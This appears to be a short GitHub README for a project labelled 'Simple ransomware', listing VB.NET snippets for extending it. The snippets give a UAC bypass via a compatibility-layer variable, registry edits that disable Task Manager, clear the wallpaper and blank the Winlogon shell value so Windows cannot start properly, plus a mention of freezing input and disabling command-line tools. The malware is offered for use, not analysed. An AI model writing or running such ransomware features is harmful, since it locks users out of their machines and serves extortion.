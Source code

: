 # Monsters_inc_v1.0
Simple ransomware ..
You can develop the ransomware by adding some features such as :

        'Bypass UAC
        'Process.Start("cmd", "/c SET __COMPAT_LAYER=RunAsInvoker")
        'Disable taskmanager
        'My.Computer.Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System")
        'My.Computer.Registry.SetValue("DisableTaskMgr", 1, RegistryValueKind.String)
        'Remove wallpaper desktop
        'My.Computer.Registry.CurrentUser.CreateSubKey("Control Panel\\Desktop")
        'My.Computer.Registry.SetValue("Wallpaper", "", RegistryValueKind.String)
        'If you shutdown your computer, you cant run winodws well
        'My.Computer.Registry.CurrentUser.CreateSubKey("SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon")
        'My.Computer.Registry.SetValue("Shell", "empty", RegistryValueKind.String)

        'Frazee mouse/keyboard + kill proccess + disable command line&Powershell

Video : https://youtu.be/DO442auD2ic<br>
Twitter : https://twitter.com/0xHunter
